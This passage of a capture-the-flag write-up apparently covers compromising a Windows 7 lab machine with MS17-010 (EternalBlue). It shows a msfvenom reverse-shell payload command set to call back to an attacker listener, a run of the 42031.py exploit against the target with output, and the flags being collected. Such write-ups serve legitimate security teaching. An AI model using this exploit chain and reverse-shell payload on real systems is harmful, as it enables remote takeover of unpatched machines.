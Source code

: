 ```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload                                                                                                        
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Generating x86 cmd shell (stageless)...

msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.10.14.2 LPORT=444                                                                                     
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload                                                                                                        
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Saved as: sc_x86_msf.bin

MERGING SHELLCODE WOOOO!!!
DONE

```

Using the generated payload, let's plug it back into 42031.py

```
#python 42031.py 10.10.10.40 AutoBlue-MS17-010/shellcode/sc_all.bin 
shellcode size: 2203
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
```

Setting up two listeners for x64 and x86, I get a hit for x64:

![42031.py](blue_42031.JPG)


Grab the flag for user haris.

## Privilege Escalation

No escalation necessary.  Grab the flag for the Administrator.




